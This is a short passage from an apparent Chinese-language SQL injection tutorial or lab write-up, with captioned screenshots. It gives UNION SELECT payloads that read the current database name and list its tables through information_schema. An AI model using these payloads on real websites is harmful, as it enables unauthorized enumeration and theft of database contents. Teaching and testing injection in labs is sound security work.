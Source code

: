 ![可知当前表有4列](/images/5_3.png)

### 获取当前数据库名称

```sql
  union select 1,database(),3,4
```

![可知当前表有4列](/images/5_4.png)

获取当前表所在数据库的所有表

```sql
  union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
